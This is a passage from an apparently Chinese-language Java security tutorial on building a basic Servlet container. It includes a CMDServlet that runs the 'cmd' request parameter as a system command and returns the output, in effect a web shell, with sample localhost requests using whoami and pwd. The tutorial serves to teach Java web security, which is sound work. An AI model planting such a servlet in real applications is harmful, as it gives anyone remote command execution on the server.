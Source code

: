 ```java
      out.write(("Hello....<br/>Request Method:" + request.getMethod() + "<br/>Class:" + this.getClass()).getBytes());
   }

}
```

浏览器请求[http://localhost:8080/TestServlet/](http://localhost:8080/TestServlet/):

<img src="https://oss.javasec.org/images/image-20200910201502285.png" alt="image-20200910201502285" />

**CMDServlet示例代码：**

```java
package com.anbai.sec.server.test.servlet;

import org.javaweb.utils.IOUtils;

import javax.servlet.annotation.WebServlet;
import javax.servlet.http.HttpServlet;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import java.io.IOException;
import java.io.OutputStream;

@WebServlet(name = "CMDServlet", urlPatterns = "/CMD/")
public class CMDServlet extends HttpServlet {

   @Override
   public void doGet(HttpServletRequest request, HttpServletResponse response) throws IOException {
      doPost(request, response);
   }

   @Override
   public void doPost(HttpServletRequest request, HttpServletResponse response) throws IOException {
      String cmd   = request.getParameter("cmd");
      byte[] bytes = IOUtils.toByteArray(Runtime.getRuntime().exec(cmd).getInputStream());

      OutputStream out = response.getOutputStream();
      out.write(bytes);
      out.flush();
      out.close();
   }

}
```

浏览器请求[http://localhost:8080/CMD/?cmd=whoami](http://localhost:8080/CMD/?cmd=whoami):

<img src="https://oss.javasec.org/images/image-20200910201725672.png" alt="image-20200910201725672" />

使用`curl`发送POST请求:`curl -i localhost:8080/CMD/ -d "cmd=pwd"`，服务器可以正常接收POST参数，处理结果如图：

<img src="https://oss.javasec.org/images/image-20200910203406943.png" alt="image-20200910203406943" />

**请求一个错误服务：**

<img src="https://oss.javasec.org/images/image-20200910203858328.png" alt="image-20200910203858328" />

至此，我们已经实现了一个非常初级的`Servlet容器`了。